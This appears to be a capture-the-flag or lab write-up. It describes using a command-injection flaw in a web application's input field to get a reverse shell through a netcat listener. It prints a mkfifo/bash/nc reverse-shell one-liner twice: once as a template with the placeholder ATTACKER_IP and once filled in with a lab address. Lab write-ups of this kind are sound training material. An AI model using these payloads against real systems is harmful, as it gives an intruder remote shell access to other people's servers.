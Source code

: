 The target page (port 8080) redirects us to a URL on port 8081 — that's exactly when I noticed an opportunity to inject malicious commands through the input field.

![Hosts the web application that is vulnerable to command injection)](./assets/two.png)

First, I need to listen on the specified IP and port. Second, I need a payload that will provide a reverse shell.

![Listen port](./assets/three.png)

Set up a netcat listener on port 8081. Once netcat started accepting connections from the target machine, I needed a payload to get a reverse shell on the web server.

The task originally provided a payload template:
```bash
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | bash -i 2>&1 | nc ATTACKER_IP ATTACKER_PORT >/tmp/f
```

I replaced ATTACKER_IP/PORT with my details:
```bash
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | bash -i 2>&1 | nc 10.10.217.140 8081 >/tmp/f
```
**Then my AttackBox froze, so the data about my IP and the target IP changed.**
